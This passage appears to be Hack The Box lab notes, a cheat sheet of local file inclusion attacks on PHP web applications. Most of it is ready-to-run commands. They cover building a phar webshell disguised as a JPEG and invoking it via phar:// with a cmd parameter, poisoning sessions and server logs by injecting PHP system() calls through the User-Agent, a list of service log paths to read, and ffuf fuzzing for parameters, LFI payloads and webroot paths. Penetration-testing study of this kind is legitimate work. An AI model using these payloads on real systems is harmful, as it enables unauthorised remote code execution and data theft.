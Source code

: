 `XeroCyb3r@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`

`phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`

## Log Poisoning 

| Function | Read Content | Execute | Remote URL |
| --- | --- | --- | --- |
| PHP |  |  |  |
| include()/include_once() | ✅ | ✅ | ✅ |
| require()/require_once() | ✅ | ✅ | ❌ |
| NodeJS |  |  |  |
| res.render() | ✅ | ✅ | ❌ |
| Java |  |  |  |
| import | ✅ | ✅ | ✅ |
| .NET |  |  |  |
| include | ✅ | ✅ | ✅ |

**Session Poisoning**

`http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_<session>&cmd=id`

**Server Log Poisoning**

`XeroCyb3r@htb[/htb]$ curl -s "http://94.237.63.238:48763/index.php" -A "<?php system(pwd); ?>"`

The following are some of the service logs we may be able to read:

- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`

**Fuzzing Parameters**

`XeroCyb3r@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`

**Lfi FFuf**

`XeroCyb3r@htb[/htb]$ ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`

To do so, we can fuzz for the `index.php` file through common webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our `index.php` afterwords.

`XeroCyb3r@htb[/htb]**$** ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287`
